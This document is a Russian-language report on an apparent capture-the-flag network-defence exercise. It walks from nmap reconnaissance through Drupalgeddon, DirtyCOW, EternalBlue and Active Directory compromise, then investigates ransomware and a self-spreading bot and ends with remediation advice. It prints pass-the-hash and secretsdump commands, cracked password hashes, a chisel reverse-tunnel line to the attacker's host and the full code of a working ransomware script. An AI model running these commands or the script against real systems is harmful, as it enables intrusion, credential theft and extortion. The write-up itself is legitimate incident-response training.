# Финальный отчет по сети предприятия
<b>Шаги эксплуатации, обнаружение вредоносной активности, методы защиты</b>

## Этап 1: инвентаризация сети: сбор информации

### Сегмент DMZ
В данном сегменте сети размещены сервисы, предназначенные для внешних пользователей. Предположительно, это и есть точка проникновения в сеть предприятия для проведения хакерской атаки. Для расследования действий злоумышленника необходимо повторить эксплуатацию. После этого станут возможны оценка ущерба и разработка методов защиты.

Начинаем с инвентаризации сети. Будем использовать nmap, свободную утилиту для сканирования компьютерных сетей. Приведенная ниже команда позволяет перечислить доступные нам сервера и сервисы, запущенные на них. 
 
```bash
$ nmap -T4 -v -sV -sC 10.39.2.0\24
```


Были обнаружены следующие компьютеры в сети. Приводится также список открытых портов и соответствующие им имена сервисов (на основании решений IANA).


- 10.39.2.10 (ОС Linux)

| Порт     | Сервис (IANA)   |
| -------- | ---------- |
| 22/tcp   | ssh        |
| 80/tcp   | http       |
| 3306/tcp | mysql      |
| 8080/tcp | http-proxy |

- 10.39.2.11 (ОС Linux)

| Порт    | Сервис (IANA) |
| ------- | ------------- |
| 22/tcp  | ssh           |
| 80/tcp  | http          |
| 139/tcp | netbios-ssn   |
| 445/tcp | microsoft-ds  |

- 10.39.2.12 (ОС Windows)

| Порт     | Сервис (IANA) |
| -------- | ------------- |
| 22/tcp   | ssh           |
| 25/tcp   | smtp          |
| 79/tcp   | finger        |
| 106/tcp  | pop3pw        |
| 110/tcp  | pop3          |
| 135/tcp  | msrpc         |
| 139/tcp  | netbios-ssn   |
| 445/tcp  | microsoft-ds  |
| 3389/tcp | ms-wbt-server |

- 10.39.2.53 (ОС Linux)

| Порт   | Сервис (IANA) |
| ------ | ------------- |
| 22/tcp | ssh           |
| 53/tcp | domain        |


### Сегмент SERVERS <!--(domain controllers)-->

Данный сегмент является наиболее критичным в сети предприятия, так как в нем располагаются сервера, имеющие управляющие роли в Active Directory. Однако они недоступны извне, и злоумышленник, в интересах которого проникнуть в этот сегмент, уже должен иметь точку входа в сеть предприятия. 

Полный доступ к любому из серверов делает возможной полную компрометацию сети, так как сервера могут управлять всеми объектами AD (группами, пользователями, компьютерами), в том числе возможна смена паролей, отключение машин от сети, удаленное исполнение кода для распространения вредоносов (шифровальщиков).


```bash
$ nmap -T4 -v -sV -sC 10.39.3.0\24
```

- 10.39.3.10 (ОС Windows)

| Порт     | Сервис (IANA)    |
| -------- | ---------------- |
| 53/tcp   | domain           |
| 88/tcp   | kerberos-sec     |
| 135/tcp  | msrpc            |
| 139/tcp  | netbios-ssn      |
| 389/tcp  | ldap             |
| 445/tcp  | microsoft-ds     |
| 464/tcp  | kpasswd5         |
| 593/tcp  | http-rpc-epmap   |
| 636/tcp  | ldapssl          |
| 3268/tcp | globalcatLDAP    |
| 3269/tcp | globalcatLDAPssl |
| 3389/tcp | ms-wbt-server    |

- 10.39.3.20 (ОС Windows)

| Порт     | Сервис (IANA)  |
| -------- | -------------- |
| 25/tcp   | smtp           |
| 80/tcp   | http           |
| 81/tcp   | hosts2-ns      |
| 110/tcp  | pop3           |
| 135/tcp  | msrpc          |
| 139/tcp  | netbios-ssn    |
| 143/tcp  | imap           |
| 443/tcp  | https          |
| 444/tcp  | snpp           |
| 445/tcp  | microsoft-ds   |
| 465/tcp  | smtps          |
| 587/tcp  | submission     |
| 593/tcp  | http-rpc-epmap |
| 808/tcp  | ccproxy-http   |
| 993/tcp  | imaps          |
| 995/tcp  | pop3s          |
| 1801/tcp | msmq           |
| 2103/tcp | zephyr-clt     |
| 2105/tcp | eklogin        |
| 2107/tcp | msmq-mgmt      |
| 2525/tcp | ms-v-worlds    |
| 3389/tcp | ms-wbt-server  |
| 3800/tcp | pwgpsi         |
| 3801/tcp | ibm-mgr        |
| 3828/tcp | neteh          |
| 6001/tcp | X11:1          |

- 10.39.3.50 (ОС Windows)

| Порт     | Сервис (IANA)    |
| -------- | ---------------- |
| 53/tcp   | domain           |
| 88/tcp   | kerberos-sec     |
| 135/tcp  | msrpc            |
| 139/tcp  | netbios-ssn      |
| 389/tcp  | ldap             |
| 445/tcp  | microsoft-ds     |
| 464/tcp  | kpasswd5         |
| 593/tcp  | http-rpc-epmap   |
| 636/tcp  | ldapssl          |
| 3268/tcp | globalcatLDAP    |
| 3269/tcp | globalcatLDAPssl |
| 3389/tcp | ms-wbt-server    |


### Сегмент OFFICE
Компьютеры в сегменте OFFICE имеют низкие привилегии в сети, но также представляют некоторый интерес из-за наличия на них различных документов, кража и шифрование которых несет большую угрозу для предприятия. Эксплуатацию данного сегмента имеет смысл проводить после проникновения в сегмент SERVERS. Считаем целесообразным искать улики, связанные с действиями вредоносов, именно на компьютерах в OFFICE.

<!--
Компьютеры, принадлежащие сегменту OFFICE и обладающие низкими привилегиями, также представляют интерес для хакеров. Это обуславливается наличием важных документов, шифрование и кража которых - одна из важнейших задач злоумышленников. Вышеописанные действия обычно осуществляются после взлома контроллера домена. (Следовательно, именно здесь стоит искать улики)
-->

```bash
$ nmap -T4 -v -sV -sC 10.39.4.0\24
```

- 10.39.4.6 (ОС Windows)

| Порт     | Сервис (IANA) |
| -------- | ------------- |
| 135/tcp  | msrpc         |
| 139/tcp  | netbios-ssn   |
| 445/tcp  | microsoft-ds  |
| 3389/tcp | ms-wbt-server |


- 10.39.4.8 (ОС Windows)

| Порт     | Сервис (IANA) |
| -------- | ------------- |
| 22/tcp   | ssh           |
| 135/tcp  | msrpc         |
| 139/tcp  | netbios-ssn   |
| 445/tcp  | microsoft-ds  |
| 3389/tcp | ms-wbt-server |


- 10.39.4.10 (ОС Windows)

| Порт     | Сервис (IANA) |
| -------- | ------------- |
| 135/tcp  | msrpc         |
| 139/tcp  | netbios-ssn   |
| 445/tcp  | microsoft-ds  |
| 3389/tcp | ms-wbt-server |


- 10.39.4.13 (ОС Windows)

| Порт     | Сервис (IANA) |
| -------- | ------------- |
| 135/tcp  | msrpc         |
| 139/tcp  | netbios-ssn   |
| 445/tcp  | microsoft-ds  |
| 3389/tcp | ms-wbt-server |


### Сегмент АСУ ТП

В данной зоне располагаются сервера, управляющие производственным процессом. Так как они могут физически управлять оборудованием предприятия, их компрометация может привести к аварии.

```bash
$ nmap -T4 -v -sV -sC 10.39.239.0\24
$ nmap -T4 -v -sV -sC 10.39.240.0\24
```

- 10.39.239.5 (ОС Windows)

| Порт     | Сервис (IANA) |
| -------- | ------------- |
| 22/tcp   | ssh           |
| 80/tcp   | http          |
| 135/tcp  | msrpc         |
| 139/tcp  | netbios-ssn   |
| 445/tcp  | microsoft-ds  |
| 1433/tcp | ms-sql-s      |
| 3389/tcp | ms-wbt-server |


- 10.39.239.6 (ОС Windows)

| Порт     | Сервис (IANA) |
| -------- | ------------- |
| 22/tcp   | ssh           |
| 135/tcp  | msrpc         |
| 139/tcp  | netbios-ssn   |
| 445/tcp  | microsoft-ds  |
| 3389/tcp | ms-wbt-server |


- 10.39.240.5 (ОС Linux)

| Порт   | Сервис (IANA) |
| ------ | ------------- |
| 22/tcp | ssh           |
| 80/tcp | http          |


- 10.39.240.6 (ОС Linux)

| Порт   | Сервис (IANA) |
| ------ | ------------- |
| 22/tcp | ssh           |
| 80/tcp | http          |

- 10.39.240.9 (ОС Linux)

| Порт   | Сервис (IANA) |
| ------ | ------------- |
| 22/tcp | ssh           |
| 80/tcp | http          |

- 10.39.240.10 (ОС Linux)

| Порт   | Сервис (IANA) |
| ------ | ------------- |
| 22/tcp | ssh           |
| 80/tcp | http          |

- 10.39.240.14 (ОС Windows)

| Порт     | Сервис (IANA) |
| -------- | ------------- |
| 22/tcp   | ssh           |
| 135/tcp  | msrpc         |
| 139/tcp  | netbios-ssn   |
| 445/tcp  | microsoft-ds  |
| 3389/tcp | ms-wbt-server |

### Прочее

Также был найден межсетевой экран. Просканируем его. Было обнаружено, что на нем развернута IDS Suricata.

- 10.39.1.254 (ОС Linux)

| Порт     | Сервис (IANA) |
| -------- | ------------- |
| 22/tcp   | ssh           |


### Домен Active Directory

Действиями, описанными далее, получаем список серверов и их имен в домене предприятия.

| IP          | Доменное имя              |
| ----------- | ------------------------- |
| 10.39.3.50  | ns1.company.local         |
| 10.39.3.10  | ns2.company.local         |
| 10.39.3.20  | mx1.company.local         |
| 10.39.4.6   | custarm.company.local     |
| 10.39.4.10  | sysadminarm.company.local |
| 10.39.10.8  | buchgarm.company.local    |
| 10.39.239.5 | OIK-SERVER.company.local  |
| 10.39.239.6 | OIK-CLIENT.company.local  |
| 10.39.4.13  | enggeneral.company.local  |

## Этап 2: Проникновение в сеть и закрепление

### Cегмент DMZ

Злоумышленник воспользовался уязвимостью CVE-2018-7600 в Drupal для удаленного исполнения кода на `10.39.2.11`, эксплоиты на нее находятся в открытом доступе. Далее для повышения привилегий до суперпользователя была эксплуатирована уязвимость DirtyCOW (CVE-2016-5195). 
<!--Для этого был использован эксплойт (ссылка на эксплойт с гитхаба).-->
Сразу после входа на сервер видим следы компрометации злоумышленником: зашифрованные php файлы, эксплойт для эскалации привилегий(название файла) и утилиты для проведения port-forwarding.

Проверяем пароли пользователей из `/etc/shadow` (ниже приведена часть файла). Используем John the Ripper и словарь rockyou. Обнаруживается пара `admin`:`Lauren1`.

```
root:$6$2unAsrVv$SX/ugOcwfyz5veSYETC0u4Q8XgwYzOc0jnqMgwW3AuxOCzPaDuUO5uwVyC5v.T3jidvzmVhNK2igLW2kXq0gA/:18464:0:99999:7:::
...
debian:$6$/bGDc9dN$F0M7DrRaPXt0q.YJmwpU4KBYzYbCVkjfPwoWi1K1vjdoNCC7EdQLedHQyaFFpufuZWDGav3CeXnLTL17MwkTd1:18464:0:99999:7:::
...
cadm:$6$8Fyx5TEU$kMdF7MXEWlGRTBN5V45TMszcU81dz0.lnIQ29EwlvNVXYMxZned2ZI4CZHxujfYY8mLxfG4G0dVcL6hS31s4M1:18738:0:99999:7:::
admin:$6$o8/IOn74rSdBiPqQ$9eFxGeqe7AeZe85IxUONcKkYPlOxkMEZfIIr3bD028blepezFWiHTNPM/RAlhtcpSQKc/aJBYkAESxkGfvR6B.:19060:0:99999:7:::
```

С помощью полученной пары пробуем получить доступ к другим серверам в зоне. Из-за повторного использования паролей мы можем войти на `10.39.2.11`, `10.39.2.10`, `10.39.2.53` по ssh. Конфигурация sudo позволяет получить root-доступ и полностью компрометировать данные машины.

Последний компьютер в данном сегменте, `10.39.2.12` с ОС Windows, уязвим к MS17-010 EternalBlue. С помощью него получаем полный доступ к системе (права `authority/system`).


### Cегмент SERVER

<!-- Теперь, когда был полный полный доступ к серверам DMZ, стали доступны машины в SERVERS. --> 
В Microsoft Exchange на `10.39.3.20` имеется уязвимость удаленного выполнения команд CVE-2020-0688. Через уязвимости ProxyShell получаем привилегии `authority/system`. Данный сервер имеет роль контроллера домена в Active Directory предприятия, что позволяет управлять компьютерами в сегментах OFFICE, SERVERS, и частью оборудования сегмента АСУ ТП.

Для перечисления существующих объектов Active Directory используем BloodHound и модуль ActiveDirectory PowerShell.

```
Import-Module ActiveDirectory
Get-ADComputer -filter * | SelectObject name 
Get-ADUser -filter * -properties *
Get-ADPrincipalGroupMembership username | select name
Get-ADGroupMember "group" -recursive | Select-Object name
```



### Сегмент OFFICE

Помимо доступа через Active Directory, некоторые компьютеры в данном сегменте также уязвимы к EternalBlue, что позволяет получить системные права.

### Сегмент АСУ ТП:
Машины `10.39.239.5`, `10.39.240.14` также уязвимы к EternalBlue. Зайдем в директорию с конфигурацией ПО Enlogic и просмотрим настройки. Находим пароли в виде, скорее всего, хешей.
```
psw_psw1="8d777f385d3dfec8815d20f7496026dc"
psw_psw2="2245023265ae4cf87d02c8b6ba991139"
psw_psw3="21232f297a57a5a743894a0e4a801fc3"
```
Проверим их на CrackStation:


### Получение доступа к межсетевому экрану

На сервере `10.39.4.10` (sysadminarm.company.local, OFFICE) обнаружен зашифрованный архив `C:\документы\39password.zip`. С помощью John the Ripper и rockyou получаем пароль: `10900`

В распакованном архиве данные для входа на сервер с IDS `10.39.1.254`:


### Компрометация паролей, закрепление

Используя хеш, полученный с `bachgarm.company.local` через `DCSync attack`, заходим как `cadm` на `ns1.company.local`. Включаем учетную запись администратора.

```
net user administrator /active:yes
```

```
python3 secretsdump.py 
    company.local/cadm@mx1.company.local -hashes 
    'aad3b435b51404eeaad3b435b51404ee:3e3b78359fdb827d5d348b7b923f4e55'
```

```
evil-winrm -i ns1.company.local 
    -u administrator 
    -H '77ea8af149e98b6e0858308e121ac91f'
```

```
python3 secretsdump.py 
    company.local/admin@mx1.company.local -hashes 
    'aad3b435b51404eeaad3b435b51404ee:77ea8af149e98b6e0858308e121ac91f'
```

Последняя команда выдает хеши всех пользователей в домене ActiveDirectory, что позволяет подключиться к любому компьютеру через Pass the hash атаку. Команда приведена ниже.

```
evil-winrm -i COMPUTER_DOMAIN_NAME 
    -u administrator 
    -H '77ea8af149e98b6e0858308e121ac91f'
```

Приводим также некоторые из паролей пользователей (из CrackStation):

| Пользователь  | Хеш                                | Пароль        |
| ------------- | ---------------------------------- | ------------- |
| Administrator | `77ea8af149e98b6e0858308e121ac91f` | `monkey#1`    |
| Exch_srv      | `077cccc23f8ab7031726a3b70c694a49` | `Passw0rd123` |
| ivanov        | `ae974876d974abd805a989ebead86846` | `P@ssw0rd1`   |
| petrov        | `c9ab9d08cc7da5a55d8a82d869e01ea8` | `P@ssw0rd2`   |
| sidorov       | `6be408f1e80386822f4b2052f1f84b4e` | `P@ssw0rd3`   |
| kuzmin        | `766b62d3db023f90443469d86393ca66` | `P@ssw0rd4`   |
| markov        | `5e5c04a4181fcffa0bf8c1034c5e30a6` | `P@ssw0rd5`   |
| fedorov       | `80a7af13ca4fac620bb29e97565ba4a1` | `P@ssw0rd6`   |
| frolov        | `61577195ec3fe96ca0ee84a1e32bb539` | `P@ssw0rd7`   |
| borisov       | `4c67802c279237004ec84f3f9236ce84` | `P@ssw0rd8`   |


Поменяем пароли пользователей через Active Directory на ```Cha1nedRules1!``` для успешного закрпеления на машинах и удобного взаимодействия.
```
net user USERAME Cha1nedRules1! /domain
```
## Расследование атаки

Считаем, что наши действия по проникновению в сеть аналогичны действиям злоумышленника. Имея полный доступ, можно начинать расследование атаки.

### Действия в DMZ

Проникновение началось с получения версии Drupal. 


После было проведено сканирование.


Дальнейшие действия по проникновению аналогичны нашим (drupalgeddon), см. выше.

При первом проникновении на  `10.39.2.11` обнаруживаем зашифрованные файлы `.php`, эксплоит для повышения привилегий и утилиту для проброски портов. В `.bash_history` сохранились команды, выполненные на сервере. Восстановим последовательность действий по запуску шифровальщика.

1) С помощью chisel злоумышленник подключился к своему серверу, чтобы пробросить порт 80.
```
 # chisel client 10.39.200.50:8083 R:socks
```

2) С `10.39.200.50` был загружен скрипт `encr.sh`, которыми были зашифрованы файлы на сервере. Приводим полный код ниже.

```bash
#!/bin/bash

iv=`cat /dev/urandom | tr -cd 'A-F0-9' | head -c 32`
pass=`cat /dev/urandom | tr -cd 'A-F0-9' | head -c 10`
dirwalk=/var/www/html
files=`find $dirwalk -maxdepth 1 -type f | grep -P ".php$|FLAG.txt$"`
for f in $files
do
    outfile=$f.encr
    openssl enc -aes-256-cbc -a -salt -in $f -out $outfile -pass pass:$pass -iv $iv
    rm $f
done
  echo "Oh! Hello there! You've been infected by GachiRansom, send 300$ to paypal:b.harrington@gmail.com to get your unecnryption key." | wall
  echo "Oh! Hello there! You've been infected by GachiRansom, send 300$ to paypal:b.harrington@gmail.com to get your unecnryption key." > /etc/motd

exit 0
```

<!-- Также были обнаружены публичные ssh-ключи (`~/.ssh/authorized_keys/...`) для доступа к Linux-серверам в зоне. [ключи оргов] -->

Получаем некоторые данные о злоумышленнике:
- IP: 10.39.200.50
- Email: b.harrington@gmail.com (также PayPal)


### Шифровальщик в АСУ ТП

На сервере `10.39.239.6` был обнаружен файл `C:\Ransom.ps1` (часть содержимого приведена скриншотами ниже). Это скрипт-шифровальщик.





Алгоритм работы:
1) Генерируется ключ AES;
2) ключ отправляется на указанный в аргументах запуска скрипта сервер HTTP GET-запросом;
3) с того же сервера скачивается и устанавливается фон рабочего стола;
4) отключаются некоторые сервисы Windows;
5) шифруются файлы в `C:\Share`.

Результат работы:





Нужно установить, с каким сервером взаимодействовал скрипт. В системных журналах находим команду скачивания и запуска скрипта, а также параметры шифрования.





Запрос на атакующий сервер попал и в PCAP межсетевого экрана:




### Бот-зловред в подсети АСУ ТП

На сервере `10.39.3.10` обнаружен `C:\WinServ.exe`. По дате создания и расположению понимаем, что это посторонний файл, замаскированный под компонент Windows. В системных журналах находим происхождение файла:



Также становится понятно, что вирус самостоятельно распространяется -- он пришел не с сервера злоумышленника, а с соседнего по SERVERS компьютера.

Находим еще одно подтверждение, что атакующий -- это `10.39.200.50`.


Вирус написан на Python 3, затем упакован в `.exe` с помощью PyInstaller.
После дизассемблирования байт-кода Python  восстанавливаем алгоритм работы.

1) Подключается к контроллеру домена как `Administrator`:`Server1`;
2) исполняет команды, приведенные выше, на других компьютерах домена для заражения;
3) по принципу reverse shell исполняются произвольные команды.


## Восстановление сети предприятия

### DMZ

Удалим `shell.php`. Расшифруем файлы на сервере `10.39.2.11`. Размер ключа составляет 40 бит, его перебор занял бы больше недели с учётом двухъядерных процессоров виртуальных машин. Поэтому будем искать сторонний канал, для этого обратимся к системным логам.

```bash
 $ sudo grep -R openssl /var/log/ | grep pass
```


Находим параметры шифрования файлов:
```
messages.1:Mar  5 13:03:01 a39-portal2 tag_audit type=EXECVE 
msg=audit(1646485380.242:29618): argc=13 a0="openssl" a1="enc" 
a2="-aes-256-cbc" a3="-a" a4="-salt" a5="-in" 
a6="/var/www/html/39FLAG.txt" a7="-out" a8="/var/www/html/39FLAG.txt.encr"
a9="-pass" a10="pass:3C07C3711B" a11="-iv" 
a12="534050EE7AD138173D90C6E90B1150F8"
```
Расшифровываем их и достаем флаг (`/var/www/html/39FLAG.txt.encr`):
```
Dilatio maximum irae remedium est.
```
в переводе с латыни
```
Delay is the greatest cure for anger
```


### АСУ ТП

Расшифрование проводим скриптом на Python 3.

```python
import os
import base64
from Crypto.Cipher import AES
s1 = base64.b64decode('WNGoUB5exbLXha+ezMkbJ2wu3perWOvHFJjX+wMyX7k=')
s2 = base64.b64decode('iPbyadQ/Znt+ajBdB0O7mA==')
cipher = AES.new(s1, AES.MODE_CBC, iv=s2)
for f in os.listdir('Share'):
    dat = open('Share/'+f,'rb').read()
    dat = cipher.decrypt(dat)[16:].rstrip(b'\x00')
    # rstrip неверно сработает на файлах, заканчивающихся нулевыми байтами, но этого не избежать автоматическими проверками
    with open('dec/'+f[:-5],'wb') as f2:
        f2.write(dat)
```

Содержимое `FLAG.txt`:

```
In malis sperare bene, nisi innocens, nemo solet.
```


## Методы защиты сети
Для предотвращения дальнейших атак с использованием упомянутых техник, нужно:

1. Обновить ядро linux на всех системах до свежей версии;
2. обновить SMB сервера на машинах с операционной системой Windows;
3. обновить Drupal на более свежую версию;
4. обновить sudo, исправить ошибки в конфигурации;
5. поменять парольную политику, с помощью laps хранить пароли для локальных администраторов;
6. удалить пользователя cadm (или хотя бы убрать его из групп `Domain/Enterprise admins`);
7. настроить фаервол для закрытия исходящих соединений, которые не касаются Active Directory и работы сервисов;

ОТЧЕТ ФИНАЛЬНЫЙ
